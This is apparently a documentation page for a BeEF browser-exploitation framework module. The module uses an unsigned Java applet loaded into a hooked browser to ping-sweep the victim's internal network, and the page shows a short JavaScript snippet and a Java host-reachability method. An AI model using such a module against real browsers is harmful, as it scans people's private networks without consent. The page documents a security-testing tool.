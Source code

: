 ## Summary

* **Objective**: Perform a ping sweep of the network via Java
* **Authors**: antisnatchor
* **Browsers**: Safari, Opera, IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/network/ping_sweep_java)

## Internal Working

Uses an unsigned Java applet (which means it won't run for updated Java and Browser versions) to ping hosts in the network.

snippet from command.js
```js

beef.dom.attachApplet('pingSweep', 'pingSweep', 'pingSweep', beef.net.httpproto+"://"+beef.net.host+":"+beef.net.port+"/", null, [{'ipRange':ipRange, 'timeout':timeout}]);

```

java snippet
```java
private static String checkHosts(List<InetAddress> inetAddresses) throws IOException {
    String alive = "";
    for (InetAddress inetAddress : inetAddresses) {
        if (inetAddress.isReachable(timeout)) {
            alive += inetAddress.toString() + "\n";
        }
    }
    return alive;
}
```

## Screenshots

[[Images/module-ping-sweep-java1.png|align=center]]


## Feedback
